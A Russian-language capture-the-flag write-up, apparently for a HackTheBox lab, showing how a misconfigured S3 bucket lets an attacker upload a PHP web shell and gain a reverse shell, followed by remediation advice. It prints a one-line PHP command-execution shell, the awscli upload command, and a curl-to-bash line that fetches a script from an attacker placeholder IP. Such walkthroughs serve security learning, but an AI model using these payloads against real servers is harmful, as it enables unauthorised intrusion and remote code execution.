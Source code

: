 В данном документе описывается эксплуатация **уязвимости неправильной конфигурации AWS S3 bucket**, которая позволяет злоумышленнику загрузить PHP-шелл на сервер и получить удаленное выполнение кода (RCE). В результате злоумышленник получает доступ к системе и находит флаг.

### Основные этапы эксплуатации уязвимости:

1. **Обнаружение поддомена `s3.thetoppers.htb`**:
    
    - С помощью инструмента **Gobuster** злоумышленник обнаруживает поддомен `s3.thetoppers.htb`, который связан с AWS S3 bucket.
        
    - Поддомен возвращает JSON-ответ `{"status": "running"}`, что указывает на наличие облачного хранилища S3.
        
2. **Исследование S3 bucket**:
    
    - Используя утилиту **awscli**, злоумышленник подключается к S3 bucket и обнаруживает, что он содержит файлы веб-сервера, включая `index.php` и `.htaccess`. Это указывает на то, что веб-сервер использует S3 bucket как хранилище для своих файлов.
        
3. **Загрузка PHP-шелла**:
    
    - Злоумышленник создает PHP-файл с кодом для выполнения команд на сервере:
        
        
        ```php
        <?php system($_GET['cmd']); ?>
		```        
    - Этот файл загружается в S3 bucket с помощью команды:
        ```php
        aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
		```        
    - После загрузки файла злоумышленник может выполнять команды на сервере, обращаясь к `http://thetoppers.htb/shell.php?cmd=<command>`.
        
4. **Получение обратного шелла**:
    
    - Злоумышленник создает bash-скрипт для обратного шелла и размещает его на своем локальном сервере с помощью Python:
        ```bash
        python3 -m http.server 8000
        ```

    - Затем с помощью команды `curl` злоумышленник загружает и выполняет этот скрипт на целевом сервере:
```bash
	http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
```
        
    - В результате злоумышленник получает обратный шелл с правами пользователя `www-data`.
        
5. **Получение флага**:
    
    - Злоумышленник находит флаг в файле `/var/www/flag.txt`.
        

### Уязвимости, которые были использованы:

1. **Неправильная конфигурация S3 bucket**:
    
    - S3 bucket был настроен таким образом, что позволял любому пользователю загружать файлы без должной аутентификации. Это привело к возможности загрузки PHP-шелла и выполнения произвольных команд на сервере.
        
2. **Отсутствие проверки загружаемых файлов**:
    
    - Веб-сервер не проверял загружаемые файлы на наличие вредоносного кода, что позволило злоумышленнику загрузить и выполнить PHP-шелл.
        
3. **Использование облачного хранилища как веб-корня**:
    
    - Веб-сервер использовал S3 bucket как корневую директорию для хранения файлов, что сделало возможным выполнение загруженного PHP-кода.
        

### Рекомендации по устранению уязвимостей:

1. **Ограничение доступа к S3 bucket**:
    
    - Настроить политики доступа к S3 bucket, чтобы только авторизованные пользователи могли загружать и изменять файлы.
        
    - Использовать IAM-роли и политики для строгого контроля доступа.
        
2. **Проверка загружаемых файлов**:
    
    - Внедрить механизмы проверки загружаемых файлов на наличие вредоносного кода.
        
    - Ограничить типы файлов, которые могут быть загружены в S3 bucket.
        
3. **Использование отдельного хранилища для статических файлов**:
    
    - Не использовать S3 bucket как корневую директорию веб-сервера. Вместо этого хранить статические файлы в отдельном хранилище, а динамические файлы (например, PHP) — на локальном сервере.
        
4. **Регулярный аудит безопасности**:
    
    - Проводить регулярные проверки конфигураций S3 bucket и веб-сервера на наличие уязвимостей.
        
    - Использовать инструменты для мониторинга и обнаружения подозрительной активности.
        

Таким образом, основная уязвимость, которую эксплуатировали, — это **неправильная конфигурация AWS S3 bucket**, которая позволила злоумышленнику загрузить и выполнить PHP-шелл, что привело к получению доступа к системе.